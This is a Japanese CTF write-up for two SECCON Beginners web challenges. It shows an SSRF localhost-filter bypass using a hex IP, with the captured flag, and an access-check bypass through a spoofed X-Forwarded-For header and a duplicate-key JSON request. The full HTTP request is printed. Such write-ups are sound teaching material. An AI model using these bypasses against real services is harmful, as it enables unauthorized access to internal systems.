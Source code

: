 ```<!-- HTML Template -->
          ?>
<!-- HTML Template -->
```
```
                $url = preg_replace("/[^a-zA-Z0-9\/:]+/u", "👻", $url); //Super sanitizing
              }
              if(stripos($url,"localhost") !== false || stripos($url,"apache") !== false){
                die("do not hack me!");
              }
```
この部分がbypassできればよい、
~~8,~~ 16進で表現すればbypassできる
127.0.0.1 -> 0x7F000001　　
>8進はApacheだめらしい

ctf4b{5555rf_15_53rv3r_51d3_5up3r_54n171z3d_r3qu357_f0r63ry}
# json
https://json.quals.beginners.seccon.jp/
```
func checkLocal() gin.HandlerFunc {
	return func(c *gin.Context) {
		clientIP := c.ClientIP()
		ip := net.ParseIP(clientIP).To4()
		if ip[0] != byte(192) || ip[1] != byte(168) || ip[2] != byte(111) {
			c.HTML(200, "error.tmpl", gin.H{
				"ip": clientIP,
			})
			c.Abort()
			return
		}
	}
}
```
ローカルipからしかアクセスできない。```c.ClientIP()```をローカルipにしたい  
 
X-Forwarded-For でcheckを抜けれる

次に、bffではid=1,apiではid=2であることが求められる。
```
{
    id:2,
    id:1
}
```
↑みたいなjsonで解釈の違いを利用する
```
POST / HTTP/1.1
Host: json.quals.beginners.seccon.jp
Cookie: _ga=GA1.2.32864143.1621697963; _gid=GA1.2.2109961660.1621697963
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: ja,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 15
Origin: https://json.quals.beginners.seccon.jp
Referer: https://json.quals.beginners.seccon.jp/
Te: trailers
Connection: close
X-Forwarded-For:192.168.111.0

{"id":2,"id":1}
```
